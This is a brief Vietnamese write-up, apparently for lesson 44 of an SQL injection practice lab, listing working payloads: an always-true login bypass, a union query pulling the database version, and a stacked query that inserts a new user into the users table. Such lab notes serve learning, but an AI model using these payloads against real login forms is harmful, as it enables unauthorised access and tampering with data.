



# Những việc làm được với lesson-44
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-44 



Cũng giống như bài trước ta không thể injection tại `forgot` và `new user`. Ta lại thử cho giá trị luôn đúng và ta phải tìm cấu trúc của nó 

1. Cấu trúc giá trị luôn đúng 
```
user : 1' or '1'='1
pass : 1' or '1'='1
```



2. Cấu trúc union 
- Ta thấy nó có hiển thị user giống như bài trước chứng tỏ ta có thể sử dụng union giống bài trước để truy xuất dữ liệu 

```
user: 1' OR '1' = '1
pass: 1' union select 1,@@version,3 OR '1'='1 
```



Bài này giống lesson 42

1'; insert into users values (43,'lesson43','lesson43'); --+